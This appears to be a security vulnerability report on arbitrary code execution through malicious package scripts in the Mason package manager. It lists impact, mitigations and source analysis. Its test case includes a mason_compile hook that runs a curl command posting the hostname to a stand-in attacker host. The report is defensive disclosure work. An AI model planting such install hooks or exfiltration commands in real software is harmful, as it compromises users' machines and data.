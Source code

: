 ### 1. Vulnerability Name: Arbitrary Code Execution via Malicious Package Installation

- Description:
    1. A threat actor creates a malicious package for Mason.
    2. The malicious package contains a `script.sh` file with embedded malicious commands.
    3. A user attempts to install the malicious package using Mason, either by specifying the malicious package name and version directly, or if a dependency resolution mechanism (not present in Mason but theoretically possible in future extensions) pulls in the malicious package.
    4. During the installation process, Mason executes the `script.sh` from the malicious package without proper input validation or sandboxing.
    5. The malicious commands within `script.sh` are executed with the user's privileges, potentially leading to arbitrary code execution on the user's machine.

- Impact:
    - **Critical**: Arbitrary code execution on the user's machine. This can lead to:
        - Data theft and espionage
        - System compromise and malware installation
        - Privilege escalation and unauthorized access
        - Denial of service or system instability

- Vulnerability Rank: **Critical**

- Currently Implemented Mitigations:
    - **Checksum verification**: Mason `mason_download` function verifies the checksum of downloaded packages to ensure integrity. This mitigation is implemented in `/code/mason.sh`.
    - However, this mitigation only ensures the downloaded file is not corrupted in transit, but does not prevent execution of malicious code if the original package source is compromised or intentionally malicious.

- Missing Mitigations:
    - **Input validation in `script.sh`**: Package scripts are executed without any validation of their content. Missing mitigation is input validation of `script.sh` content before execution.
    - **Sandboxing or privilege separation**: Package scripts are executed with the user's privileges. Missing mitigation is sandboxing or running package scripts in a restricted environment with minimal privileges.
    - **Secure download sources**: Mason relies on URLs provided in package scripts. Missing mitigation is enforcing secure download sources (HTTPS) and potentially package registries with trust and reputation mechanisms.
    - **Code review and package signing**: There is no mechanism for code review or package signing to ensure the safety of package scripts. Missing mitigations include package signing and community-driven code review processes.
    - **Dependency verification and trust**: Mason lacks dependency management, but in a hypothetical future version with dependencies, there's no trust mechanism for package dependencies. Missing mitigation is dependency verification and trust mechanisms.
    - **User warnings**: Missing mitigation is displaying clear warnings to users about the risks of installing packages from untrusted sources, especially given the unmaintained status of Mason.

- Preconditions:
    1. A threat actor must be able to create and host a malicious Mason package.
    2. A user must attempt to install this malicious package using Mason.
    3. The user must have execute permissions in the directories where Mason operates (typically within their home directory or `/tmp` for global install).

- Source Code Analysis:
    - File: `/code/mason.sh`
    - The `mason_run` function handles the `install` command and calls `mason_build`.
    - The `mason_build` function calls `mason_load_source`, `mason_prepare_compile`, and `mason_compile`.
    - In `mason_load_source`, the `mason_download` function downloads the package archive.
    - In `mason_compile`, the `script.sh` file from the downloaded package is implicitly executed as part of the build process when package-specific `mason_compile` function is called.

    ```
    mason_run() {
        if [ "$1" == "install" ]; then
            # ...
            mason_build "$@"
            # ...
        # ...
    }

    mason_build() {
        mason_load_source
        # ...
        mason_compile
        # ...
    }

    # Example script.sh from a package (e.g., scripts/variant/1.1.0/script.sh)
    function mason_compile {
        mkdir -p ${MASON_PREFIX}/include/mapbox
        cp -v *.hpp ${MASON_PREFIX}/include/mapbox
        cp -v README.md LICENSE ${MASON_PREFIX}
    }
    ```
    - The `mason_compile` function is overridden in each package's `script.sh`.
    - Mason executes this `mason_compile` function, which is part of the potentially malicious `script.sh` file.
    - There is no input sanitization or validation of the commands within `script.sh` before execution.
    - Visualization:
    ```mermaid
    graph LR
        A[mason install package] --> B(mason_run)
        B --> C(mason_build)
        C --> D(mason_load_source)
        C --> E(mason_compile)
        E --> F{Execute script.sh/mason_compile}
        F --> G(Arbitrary Code Execution)
    ```

- Security Test Case:
    1. Create a malicious package named `test-malicious` with version `1.0.0`.
    2. In the `scripts/test-malicious/1.0.0/script.sh` file, add the following malicious code to the `mason_compile` function:
    ```bash
    function mason_compile {
        mkdir -p ${MASON_PREFIX}/.trojan
        echo "Vulnerable to arbitrary code execution" > ${MASON_PREFIX}/.trojan/README.txt
        # Example command to exfiltrate data (replace with actual malicious action)
        curl -X POST -d "hostname=$(hostname)" https://attacker.example.com/exfiltrate
    }
    ```
    3. Create a dummy `.travis.yml` file in `scripts/test-malicious/1.0.0/.travis.yml`.
    4. Run `mason install test-malicious 1.0.0` on a test machine.
    5. Verify that the file `.trojan/README.txt` is created in the installation prefix (`./mason_packages/linux-x86_64/test-malicious/1.0.0/.trojan/README.txt` or similar) and that the `curl` command is executed (e.g., by monitoring network traffic or checking attacker's server logs).
    6. This test case demonstrates arbitrary code execution by a malicious package during installation.